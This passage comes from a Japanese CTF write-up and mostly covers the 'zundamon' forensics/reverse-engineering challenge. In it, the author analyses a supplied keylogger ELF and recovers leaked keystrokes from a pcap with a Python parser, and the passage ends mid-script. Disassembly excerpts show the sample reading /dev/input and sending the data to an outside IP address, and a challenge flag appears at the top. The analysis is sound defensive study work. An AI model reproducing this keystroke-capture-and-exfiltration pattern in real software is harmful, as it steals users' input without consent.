 Flag: `CakeCTF{w4n1w4n1_p4n1c_uh0uh0_g0ll1r4}`

3番目に解いたのでダメかな、と思いきやPrizeを貰えることになって、すごく嬉しかったです！((語彙力......))

## [forensics / rev] zundamon (20 solves)

```
I found a suspicious process named "zundamon" running on my computer. Can you investigate the communication logs to confirm that no information has been leaked?

This program may harm your computer. Do not run it outside sandbox.
```

実行ファイル (ELF) とpcapngファイルが配布されている。

```
evidence.pcapng: pcapng capture file - version 1.0
zundamon:        ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=7e0fd4acc0c6f7aed55b6aab42ccd63a2c7ee871, for GNU/Linux 3.2.0, not stripped
```

`zundamon` という実行ファイルを解析すると、`/dev/input/` 下のデバイスファイルを読み取り、その内容を `164.70.70.9` 宛てに送信するような機能を持っていることがわかる。

```asm
.text:0000000000001568                 mov     rcx, cs:cmp     ; cmp
.text:000000000000156F                 lea     rdx, is_char    ; selector
.text:0000000000001576                 lea     rdi, dir        ; "/dev/input"
.text:000000000000157D                 mov     rax, fs:28h
.text:0000000000001586                 mov     [rsp+2048h+var_30], rax
.text:000000000000158E                 xor     eax, eax
.text:0000000000001590                 lea     rsi, [rsp+2048h+namelist] ; namelist
.text:0000000000001595                 call    _scandir
...
.text:0000000000001737                 lea     rdi, cp         ; "164.70.70.9"
.text:000000000000173E                 mov     [rsp+38h+var_38], 0EB180002h
.text:0000000000001745                 call    _inet_addr
...
.text:0000000000001AB8                 mov     rsi, r14        ; buf
.text:0000000000001ABB                 mov     edx, 3072       ; nbytes
.text:0000000000001AC0                 mov     edi, r12d       ; fd
.text:0000000000001AC3                 call    _read
...
.text:00000000000019EB                 mov     edx, 2          ; n
.text:00000000000019F0                 mov     rsi, r12        ; buf
.text:00000000000019F3                 mov     edi, ebp        ; fd
.text:00000000000019F5                 call    _write
```

Wiresharkを用いてペイロードを抽出した上で、内容を読みやすくするスクリプトを作成し実行しました。

```python
#!/usr/bin/env python3

import struct

KNOWN_VAR = [b'PING', b'+PONG', b'RPUSH', b'd8:f2:ca:ce:44:8d', b'*3', b'$5', b'$17', b'$3', b'*1', b'$4']

payload = bytes.fromhex(open('zundamon/payload.raw', 'r').read())
payload = payload.split(b'\r\n')
dat = []
for elem in payload:
    if elem != b'' and elem not in KNOWN_VAR and elem[0] != 58:
        dat.append(chr(elem[0]).encode())

dat = b''.join(dat)
```